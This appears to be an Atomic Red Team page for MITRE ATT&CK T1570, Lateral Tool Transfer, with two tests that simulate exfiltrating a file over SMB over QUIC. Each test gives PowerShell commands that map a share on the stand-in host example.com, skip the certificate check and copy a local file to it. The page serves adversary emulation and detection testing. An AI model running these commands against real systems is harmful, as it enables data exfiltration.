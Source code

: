 # T1570 - Lateral Tool Transfer
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1570)
<blockquote>Adversaries may transfer tools or other files between systems in a compromised environment. Once brought into the victim environment (i.e., [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)) files may then be copied from one system to another to stage adversary tools or other files over the course of an operation.

Adversaries may copy files between internal victim systems to support lateral movement using inherent file sharing protocols such as file sharing over [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002) to connected network shares or with authenticated connections via [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001).(Citation: Unit42 LockerGoga 2019)

Files can also be transferred using native or otherwise present tools on the victim system, such as scp, rsync, curl, sftp, and [ftp](https://attack.mitre.org/software/S0095). In some cases, adversaries may be able to leverage [Web Service](https://attack.mitre.org/techniques/T1102)s such as Dropbox or OneDrive to copy files from one machine to another via shared, automatically synced folders.(Citation: Dropbox Malware Sync)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)](#atomic-test-1---exfiltration-over-smb-over-quic-new-smbmapping)

- [Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)](#atomic-test-2---exfiltration-over-smb-over-quic-net-use)


<br/>

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>
